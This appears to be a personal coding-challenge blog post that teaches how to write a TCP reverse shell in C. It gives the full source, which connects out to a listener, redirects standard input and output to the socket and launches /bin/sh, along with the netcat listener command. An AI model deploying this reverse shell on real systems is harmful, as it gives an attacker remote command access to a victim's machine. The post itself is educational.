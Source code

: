 ```yaml
---
layout: post
title: day 7 - network pt4 - reverse shell! 
category: 100-days-of-code
slug: 100-days-day-7
---
```


Hey! Today I went back to network programming and finished my first goal of the challenge, making a TCP reverse shell in C. Am I officially a hacker now?

As always, I recommend the [Beej's Guide to Network Programming](https://beej.us/guide/bgnet/) to learn about this. It doesn't teach how to develop a reverse shell directly, but it does teach everything you need to know to start this project yourself. But this blog post will be a tutorial for developing a reverse shell in C, if you want to go straight to the project.

The code looks like this: 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netdb.h>
#include <arpa/inet.h>
#include <string.h>
#include <unistd.h>

#define PORT "3490"
#define IP "127.0.0.1"
#define TIMEOUT 2


int main(void){
    
    int sockfd;
    struct addrinfo hints, *servinfo, *p;
    
    memset(&hints, 0, sizeof(hints)); // initialize the settings
    // as 0s
    hints.ai_family = AF_UNSPEC; // IPv4 or IPv6
    hints.ai_socktype = SOCK_STREAM; // Stream socket/connection based
    
    int status;
    if((status = getaddrinfo(IP, PORT, &hints, &servinfo) != 0)){
        
        fprintf(stderr, "getaddrinfo: %s\n", gai_strerror(status));
        return 1;
    } // servinfo becomes a linked list with the host info

    for(int i = 0; i < 5; i++){

        for(p = servinfo; p != NULL; p = p->ai_next){
        // looping through the linked list

            if((sockfd = socket(p->ai_family, 
                            p->ai_socktype, 
                            p->ai_protocol)) == -1){
            // getting socket file descriptor

                perror("socket");
                continue; 
            }
            if(connect(sockfd, p->ai_addr, p->ai_addrlen) == -1){
            //  attempting to connect to the remote host

                close(sockfd);
                perror("connect");
                continue;
            }

            break;
        }

        if(p == NULL){
            
            fprintf(stderr, "failed to connect to %s:%s\n", IP, PORT);
            if(i==4) return 2;
            sleep(TIMEOUT);
            continue;
        }
    }
    
    dup2(sockfd, 0);
    dup2(sockfd, 1);
    dup2(sockfd, 2);

    execve("/bin/sh", NULL, NULL);
}
```

If it looks complicated, don't worry, by the end of this post it won't be ;)

Let's walk through the various sections of the code. 

```
int sockfd;
struct addrinfo hints, *servinfo, *p;
    
memset(&hints, 0, sizeof(hints)); // initialize the settings
// as 0s
hints.ai_family = AF_UNSPEC; // IPv4 or IPv6
hints.ai_socktype = SOCK_STREAM; // Stream socket/connection based
    
int status;
if((status = getaddrinfo(IP, PORT, &hints, &servinfo) != 0)){
        
    fprintf(stderr, "getaddrinfo: %s\n", gai_strerror(status));
    return 1;
} // servinfo becomes a linked list with the host info
```

Here we specify certain settings of the connection we want to make to the host. AF_UNSPEC specifies that the connection can be both IPv4 or IPv6, and SOCK_STREAM specifies the type of socket we're going to use. If you want to learn this in more detail, read [day 5 post](/blog/100-days-day-5).

Then servinfo will become a linked list with the host info array (in case there is more than one type of connection possible). Now we have all the information we need to use socket functions. 

Now let's go to the main code logic.
```
for(p = servinfo; p != NULL; p = p->ai_next){
// looping through the linked list

    if((sockfd = socket(p->ai_family, 
                    p->ai_socktype, 
                    p->ai_protocol)) == -1){
    // getting socket file descriptor

        perror("socket");
        continue; 
    }
    if(connect(sockfd, p->ai_addr, p->ai_addrlen) == -1){
    //  attempting to connect to the remote host

        close(sockfd);
        perror("connect");
        continue;
    }

    break;
}
```

The socket function creates a socket! Very unexpected. We have to specify the family of the IP, the type of socket and the communication protocol. As we used getaddrinfo(), all of this is already on the linked list, so we don't have to worry about putting this information in by ourselves, it's all on p!

The socket function returns a file descriptor. In unix, every resource that handles input/output has an indentifier, which is called a file descriptor. (Keep in mind that even non-files have file descriptors, like network sockets.) To recieve input and send output, we need to do it through the file descriptor. So, whenever we make a operation relating to the socket we created, we will provide the file descriptor. 

As we are using a connection-based socket, the next step is to connect(). To do so, we provide the socket file descriptor, the address and the address length. If all goes well, we are basically done. I enclosed all of this in a for loop to try 5 times, if it doesn't work in 5 times, I end the program by returning the main.

Great, now that we estabilished the connection, we just need to do the reverse shell bit. 

```
dup2(sockfd, 0);
dup2(sockfd, 1);
dup2(sockfd, 2);

execve("/bin/sh", NULL, NULL);
```

dup2() is a function that duplicates the file descriptor. We provide the file descriptor we want to duplicate and the identifier we want to use. 0, 1 and 2 are the indentifiers of the stdin, stdout and stderr file descriptors, in order. So by making those indentifiers instead point to the socket file descriptor, whenever any program try to read the stdin or write to the stdout and stderr, it will instead read from the socket input and write to the socket output. 

Now that we have complete control over the input and output remotely, we just need to execute the shell with the execve() function. 

Success! You sucessfully learned how to make a reverse shell program in C! To test it, just start listening for connection in a terminal using netcat. The command is ```nc -lvp PORT```, as I specified the port 3490 I used ```nc -lvp 3490```. Now you just compile the client we just devloped in another terminal and run it. If all goes well, your netcat will recieve a connection, and you will be able to operate the shell through the terminal in which you used netcat.

If you want to read the full code on github, [click here](https://github.com/ArthurAMP/reverse-shell-c/blob/main/client.c).

See ya!

[next post](/blog/100-days-day-8)